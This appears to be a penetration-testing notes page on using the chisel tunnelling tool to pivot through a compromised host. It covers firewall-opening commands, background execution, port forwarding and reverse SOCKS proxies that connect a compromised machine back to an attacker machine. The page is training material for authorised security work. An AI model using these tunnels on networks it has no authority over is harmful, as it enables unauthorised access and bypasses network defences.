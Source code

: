 # chisel

{% hint style="danger" %}
Remember not to do TCP SYN scans (-sS) with nmap as this is not yet supported. Use -sT instead, both when discovering hosts and when using basic scripts/port enumeration.
{% endhint %}

Chisel is a very powerful tool that will encapsulate a TCP session in an HTTP tunnel (a bit like Tunna or reGeorg) while securing it via SSH (in the same style as sshuttle).

Chisel is a competition killer, easy to use and powerful. All communications are encrypted thanks to SSH, it supports mutual authentication (login/password for the client, fingerprint matching for the server), automatic reconnection, and has its own SOCKS5 proxy server.

### [Compilation or Download](../../misc/tools.md#chisel)

## Considerations

### Firewall

When opening a server with chisel, it is important to enable that specific port to prevent the firewall from denying traffic through that port.

{% tabs %}
{% tab title="Windows" %}
Example on a Windows system. Before opening a server with chisel, we allow traffic through a random port (Ex: 5556).

```shell
netsh advfirewall firewall add rule name="SOCKS Proxy (1)" protocol=TCP dir=in localport=5556 action=allow
netsh advfirewall firewall add rule name="SOCKS Proxy (2)" protocol=TCP dir=out localport=5556 action=allow

.\chisel.exe server -p 5556 --reverse
```
{% endtab %}

{% tab title="Linux" %}
Example on a Linux system. Before opening a server with chisel, we allow traffic through a random port (e.g. 5556).

```bash
# ufw
ufw allow out from any to any port 5556 proto tcp
ufw allow in from any to any port 5556 proto tcp
# firewall-cmd (CentOS)
firewall-cmd --zone=public --add-port 5556/tcp
```
{% endtab %}
{% endtabs %}

### "Chisel" process in background

It is recommended to have the "chisel" process running in the background, in order to be able to continue using the current console.

{% tabs %}
{% tab title="Windows" %}
```shell
# "Chisel" process in background:
start /b .\chisel.exe server -p 5555 --reverse > C:\Windows\Temp\temp.txt
```
{% endtab %}

{% tab title="Linux" %}
```
sudo ./chisel server -p 5555 --reverse &
```
{% endtab %}
{% endtabs %}

In addition, if we want to kill those background processes, we can do so. We have to get the PID/ID of the "chisel" process and then kill it:

{% tabs %}
{% tab title="Windows" %}
### Get PID

{% hint style="success" %}
To obtain the PID there are many commands, you can see them all [here](../privilege-escalation/windows-privilege-escalation/initial-enumeration-windows.md#get-processes). In this occasion, we are only going to show with the `wmic` command.
{% endhint %}

```
wmic process get ProcessId,Description,ParentProcessId,CommandLine
```

### Kill process

```shell
taskkill /F /PID <PID>
```
{% endtab %}

{% tab title="Linux" %}
### Get PID

```bash
ps aux | grep chisel
```

### Kill process

```bash
sudo kill <PID>
```
{% endtab %}
{% endtabs %}

## Port Forwarding

{% tabs %}
{% tab title="Local Forwarding" %}
```bash
chisel server -p <SERVER PORT> --host 192.168.2.105 -v # Compromised machine.
chisel client -v <IP/PIVOT IP>:<SERVER PORT> <LPORT>:<IP/PIVOT IP>:<RPORT> # Attacker machine.
lsof -i:<PORT> # Verification
```
{% endtab %}

{% tab title="Remote Forwarding" %}
```bash
# Attacker computer:
chisel server -p <SERVER PORT> --reverse # We can add the IP of the pivot machine: --host 192.168.2.149
# Compromised computer:
chisel client <LHOST>:<SERVER PORT> R:<local-host>:<local-port>:<remote-host>:<remote-port>/<protocol> # Complete syntax.
chisel client <LHOST>:<SERVER PORT> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> 
# We can also do multiple port forwarding:
chisel client 10.9.5.12:1234 R:445:localhost:445 R:8080:localhost:8080 R:21:localhost:21
```
{% endtab %}
{% endtabs %}

## SOCKS proxy

{% tabs %}
{% tab title="Forward SOCKS proxy" %}
```bash
chisel server -p 8080 --host 192.168.2.105 --socks5 -v # Compromised machine.
chisel client -v http://192.168.2.105:8080 127.0.0.1:33333:socks # Attacker machine
curl --head http://10.42.42.2 --proxy socks5://127.0.0.1:33333 # Verification
```
{% endtab %}

{% tab title="Reverse SOCKS proxy" %}
{% hint style="info" %}
This will start a listener on our machine on port 1080 which is a SOCKS5 proxy through the Chisel client. We can intercept the traffic with Burpsuite, which is explained in the following link: [Use SOCKS Proxy](broken-reference)
{% endhint %}

```bash
clisel server -p <SERVER PORT> --reverse & # Attacker machine.
chisel client <LHOST>:<SERVER PORT> R:socks & # Compromised machine.
```

Now I can use [proxychains](proxychains.md#socks-proxy) or [FoxyProxy](foxy-proxy.md#socks-proxy) to interact with the network behind the target in a natural way.
{% endtab %}
{% endtabs %}
